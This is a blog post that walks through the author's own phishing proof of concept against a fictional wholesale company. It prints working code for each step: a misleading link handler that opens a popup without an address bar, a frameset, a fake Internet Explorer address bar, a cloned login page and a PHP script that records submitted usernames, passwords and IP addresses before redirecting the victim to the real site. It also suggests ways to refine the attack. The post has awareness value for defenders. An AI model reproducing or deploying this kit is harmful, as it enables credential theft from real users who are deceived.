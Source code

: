 ```yaml
---
layout: post
title: The anatomy of a phishing attack - advanced technique
tags:
- security
---
```


So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwhiches with a website at wholesalepbj.com.  My 'fake' URL that I provided the target with was from an e-mail from sales@wholesalepbj.com which told them about a new promotion we were running.  It told them to goto diamondquality-wholesalepbj.com for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited wholesalepbj.com and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  diamondquality-wholesalepbj.com, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to goto our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  Just click <a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a> ...
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
    window.open("redirectToPBJ.html", "PBJWindow",
                "status=0,toolbar=0,location=0,left=1,top=1,height=" + screen.height + ",width=1010");
    return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns 'false' so we never goto the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see alot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to pbj, we name it pbjwindow, etc.  You'll notice the only suspect thing is 'location=0' in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

Lets check out the content of redirectToPBJ.html

```html
<html>
	<title>http://www.wholesalepbj.com</title>
	<frameset rows="27,*" border=0 frameborder=0>
		<frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
		<frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
	</frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to www.wholesalepbj.com.html.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Lets check out the top.html file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

top.html contains this text:

```html
<style type="text/css">
    body {
        margin: 0px;
        padding: 0px;
        background-color: #d4d0c8;
        font-family: tahoma;
        font-size: 11px;
        border-top: 1px solid #ffffff;
        border-bottom: 1px solid #aaaaaa;
        vertical-align: middle;
    }

    #address {
        float: left;
        height: 35px;
        padding: 3px;
    }

    #addressbox {
        width: 910px;
    }

    #gobutton {
        background-image: url('go.jpg');
        background-repeat: no-repeat;
        border: 0px;
        padding-left: 17px;
    }
</style>
<script type="text/javascript">
    function gotoAddress()
    {
        var v= document.getElementById('addressbox').value;
        if (v.substr(0, 7) != 'http://') {
            v = 'http://' + v;
        }
        top.opener.location.href=v;
        parent.window.close();
        return false;
    }
</script>

<p id="address">Address</p>
<p id="box">
    <form name="address" action="/" onsubmit="return gotoAddress()">
        <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
        <input value="Go" id="gobutton" type="submit" />
    </form>
</p>
```

This is an interesting piece of code.  First off, lets start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The go.jpg is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an http://, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, lets move on to spoofing the real website.

I simply went to wholesalepbj.com in my browser and did a file -> save as - and saved the entire web page and archive named 'www.wholesalepbj.com.html'.  I uploaded this to my evil server as well.  It had to be named this so we could support the 'src' attribute in our framed document top.html's source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll goto the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Lets take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite($f, "----------------------------\nip: " . $_SERVER['REMOTE_ADDR'] . "n" . print_r($_POST, TRUE));
fclose($f);  //note - additional spaces added in here cuz wordpress keeps eating these...
?>
<script type="text/javascript">
	parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.